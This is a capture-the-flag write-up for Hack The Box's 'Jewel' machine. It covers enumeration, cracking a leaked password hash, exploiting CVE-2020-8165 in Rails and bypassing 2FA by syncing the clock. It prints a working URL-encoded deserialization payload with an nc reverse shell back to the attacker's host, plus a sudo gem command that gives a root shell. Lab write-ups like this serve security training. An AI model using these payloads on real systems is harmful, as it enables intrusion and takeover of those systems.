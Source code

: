 ```yaml
---
published: true
---
```

<h1>Scanning</h1>

<img src="https://i.ibb.co/dbW2t85/Screenshot-from-2021-02-13-17-25-59.png" alt="Screenshot-from-2021-02-13-17-25-59" border="0"> 

<p>We found port 22 for ssh and port 8000,8080 for HTTP where port 8000</p>

<p>Let`s add jewel.htb in our hosts </p>

<img src="https://i.ibb.co/5v1Xjw8/Screenshot-from-2021-02-13-17-54-04.png" alt="Screenshot-from-2021-02-13-17-54-04" border="0">
<h2>Enumeration</h2>
<h2>Port 8000</h2>
<img src="https://i.ibb.co/kxyH5Kj/Screenshot-from-2021-02-13-18-01-04.png" alt="Screenshot-from-2021-02-13-18-01-04" border="0">

<h2>port 8080</h2>
<img src="https://i.ibb.co/37D1z6D/Screenshot-from-2021-02-13-18-01-35.png" alt="Screenshot-from-2021-02-13-18-01-35" border="0">

<p>Let`s enumerate the BLOG!</p>
<img src="https://i.ibb.co/FmT1Ppz/Bill.png" alt="Bill" border="0">
<img src="https://i.ibb.co/s9vmvfL/Jennifer.png" alt="Jennifer" border="0">
<p>We found 2 user Bill,Jennifer </p>

<p>Let`s enumerate the REPO </p>
<img src="https://i.ibb.co/0fNWrZK/Screenshot-from-2021-02-13-18-15-14.png" alt="Screenshot-from-2021-02-13-18-15-14" border="0">

<p>After some enumerating i found SQL file "bd.sql" and i got some hashes</p>
<img src="https://i.ibb.co/d08S7kv/Screenshot-from-2021-02-13-18-18-20.png" alt="Screenshot-from-2021-02-13-18-18-20" border="0">

<p>I cracked Bill hash "spongebob" but couldn`t login, let`s countinue enumeration</p>
<img src="https://i.ibb.co/JKpyJ9q/Screenshot-from-2021-02-13-18-27-25.png" alt="Screenshot-from-2021-02-13-18-27-25" border="0">
<h2>User flag</h2>
<p>It`s using ruby '2.5.5' , let`s search for an exploit</p>
<p>After searching i found a CVE</p><a href="https://github.com/masahiro331/CVE-2020-8165">CVE-2020-8165</a> 
<p>I tested all the fields and i found that the vulnerable input in updating user fields</p>
<p>Payload <blockquote>%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.XX.XX+9001+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T</blockquote></p>
<p>Change the ip to your ip</p>
<img src="https://i.ibb.co/52wq0rs/web10.png" alt="web10" border="0">
<img src="https://i.ibb.co/GRGjx1b/cmd2.jpg" alt="cmd2" border="0">
<blockquote>
<span class="k">$ su bill</span>
<span class="na">Password: </span>
<span class="k">bill@jewel:~$ whoami</span>
<span class="na">bill</span>
</blockquote>
<p>The password is "spongebob" we cracked it,if you remember </p>                                                     <p>Let`s upgrade our shell </p>

<img src="https://i.ibb.co/wJVwsXx/ssh.jpg" alt="ssh" border="0">
<img src="https://i.ibb.co/cCN66PD/ssshhs1.jpg" alt="ssshhs1" border="0">

<h2>Root flag</h2>
<p>I listed the directory as 1st step of enumeration and i found Google auth, it look like the admin use 2FA</p>
<img src="https://i.ibb.co/NydTvQn/Google-autyh.jpg" alt="Google-autyh" border="0">
<p>Let`s get the secret key and use google auth</p>
<img src="https://i.ibb.co/RghXZSW/cmd10.jpg" alt="cmd10" border="0">
<img src="https://i.ibb.co/GTBN0Wz/auth-1.jpg" alt="auth-1" border="0">
<img src="https://i.ibb.co/QcTKwXY/auth-2.jpg" alt="auth-2" border="0">
<p>Let`s generate the OTP</p>
<img src="https://i.ibb.co/89GyndH/web14.jpg" alt="web14" border="0">
<p>Let`s use the OTP</p>
<img src="https://i.ibb.co/MM9SNFy/cmd11.jpg" alt="cmd11" border="0">
<p>Looks like something wrong.</p>
<p>This step made my mind blow off , i searched a lot and asked for a nudge at HTB discord server</p>
<p>Someone told me it`s about sync with the victim box, let`s see</p>
<img src="https://i.ibb.co/PCjNDwg/cmd123.jpg" alt="cmd123" border="0">.
<img src="https://i.ibb.co/PCjNDwg/cmd123.jpg" alt="cmd123" border="0">
<p>Timezone is different, let`s set our machine to the victim timezone</p>
<img src="https://i.ibb.co/PxmmR2H/cmd163.jpg" alt="cmd163" border="0">
<img src="https://i.ibb.co/Mn5tVyQ/cmd1645.jpg" alt="cmd1645" border="0">
<p>Let`s try to escalate privilege again</p>
<img src="https://i.ibb.co/1M7W8dv/priv.jpg" alt="priv" border="0">
<p>Bam ! it`s working</p>
<pre>
<span class="k">sudo gem open -e "/bin/sh -c /bin/sh" rdoc</span>
                                                                </pre>
<img src="https://i.ibb.co/JzTS9cn/cmd19.jpg" alt="cmd19" border="0">

<p>Thanks for reading i hope you enjoyed </p>

